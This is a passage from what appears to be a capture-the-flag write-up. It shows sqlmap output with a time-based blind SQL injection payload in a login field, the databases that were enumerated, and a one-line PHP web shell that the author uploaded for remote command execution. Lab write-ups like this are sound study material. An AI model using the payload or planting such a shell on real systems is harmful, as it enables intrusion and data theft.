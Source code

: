 ```bash
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:10:20] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[16:10:20] [INFO] checking if the injection point on (custom) POST parameter '#1*' is a false positive
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 160 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 9716 FROM (SELECT(SLEEP(5)))GBpJ) AND 'WeMq'='WeMq&password=helloworld
---
[16:10:36] [INFO] the back-end DBMS is MySQL
[16:10:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:10:41] [INFO] fetching database names
[16:10:41] [INFO] fetching number of databases
[16:10:41] [INFO] retrieved: 
[16:10:51] [INFO] adjusting time delay to 1 second due to good response times
2
[16:10:52] [INFO] retrieved: gallery_db
[16:11:32] [INFO] retrieved: information_schema
available databases [2]:
[*] gallery_db
[*] information_schema

[16:12:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.41.122'

[*] ending @ 16:12:42 /2023-03-10/

```

This took a while since it was doing a time based SQLi. Turns out there are 2 Databases: gallery_db and informations_schema.

Curious what's in gallery_db

while running sqlmap over and over again i tried to upload a php file with a RCE code in it.

```php

<?php system($_GET['cmd'])?>

```
